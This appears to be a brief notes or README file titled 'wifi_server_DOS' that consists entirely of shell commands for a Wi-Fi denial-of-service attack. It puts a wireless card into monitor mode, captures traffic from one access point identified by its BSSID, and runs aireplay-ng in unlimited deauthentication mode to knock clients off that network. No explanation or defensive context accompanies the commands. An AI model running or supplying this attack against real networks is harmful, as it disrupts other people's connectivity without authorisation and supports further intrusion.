 # wifi_server_DOS
sudo -s
ifconfig wlo1 down
iwconfig wlo1 mode monitor
ifconfig wlo1 up
airmon-ng check wlo1
//(kill NetworkManager  >>  then dhclient  >> then all others)
airodump-ng -c 6 -w SCAN_test1 --bssid 34:E9:11:92:FD:33 wlo1
aireplay-ng -0 0 -a 34:E9:11:92:FD:33 wlo1

# wifi_server_DOS
